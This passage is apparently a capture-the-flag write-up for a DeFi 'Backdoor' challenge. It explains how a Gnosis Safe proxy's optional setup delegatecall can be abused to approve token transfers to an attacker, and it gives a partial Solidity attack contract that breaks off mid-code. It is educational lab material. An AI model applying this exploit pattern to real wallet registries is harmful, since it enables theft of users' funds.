 The test will pass and I would have solved the contract if:

- The attack happens in one transaction
- For every user the wallet should be registered in the wallet array
- For every user the benificiary array should be set to false
- All 40 tokens should be with the player

### Vulnerability and Attack

At first this task looked easy - use a fallback manager and execute the code based on this. But hey, this did not work out because the Wallet Registry checks for this. As written above I moved to the optional delegate. `GnosisSafeProxyFactory.createProxyWithCallback`(not static) creates a proxy and executes the setup method. If an optional delegate is set, the `ModuleManager.setupModules()`(not static) is called that triggers a call to the `Executor.execute` which triggers a delegatecall to the contract address and method we provided.

Here we can inject our code and approve a token transfer first then transfer it to the players wallet :-) So my attack will:

- Handle everything in a attackers contract constructor, that I achieve the requirement of an attack in 1 transaction
- Create a secondary contract for the approval of the transfer of the tokens, because in the constructor the bytecode of the contract is not yet deployed.
- Create a ProxyGnosisSafe for all of the 4 users with factory.createProxyWithCallback - loop over the usersit.
- Define an optional delegate call with data
- ❤️❤️❤️ At the end call transferFrom to transfer the token from the user to the attacker ❤️❤️❤️

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@gnosis.pm/safe-contracts/contracts/GnosisSafe.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol";
import "../DamnValuableToken.sol";

contract BackdoorAttack {
    address proxy;
    uint256 constant PAYMENT_AMOUNT = 10 ether;

    constructor(GnosisSafeProxyFactory factory, address mastercopy, address[] memory users, address token, address callback) {
        console.log("The BackdoorAttack contract address is: ", address(this));
        address approveAttack = address(new ApproveAttack());
        console.log("The TransferAttack contract address is: ", approveAttack);
        for (uint256 i = 0; i < users.length; i++) {
            address[] memory oneOwner = new address[](1);
            oneOwner[0] = users[i];

            proxy = address(
                factory.createProxyWithCallback(
                    mastercopy,
                    abi.encodeWithSelector(
                        GnosisSafe.setup.selector, //"setup(address[],uint256,address,bytes,address,address,uint256,address)",
                        oneOwner, // current owner
                        1, // threshold
                        address(approveAttack), //attack, // optional delegate call
                        abi.encodeWithSignature("approve(address,address,uint256)", address(token), address(this), 10 ether), //bytes encode function attack
                        address(0), // no fallback handler, because the callback does not allow it
                        address(0), // payment token is ether
                        uint256(0), // Value that should be paid
                        address(0) // address that should receive the payment 0 for tx.origin
                    ),
                    0, // SALT
```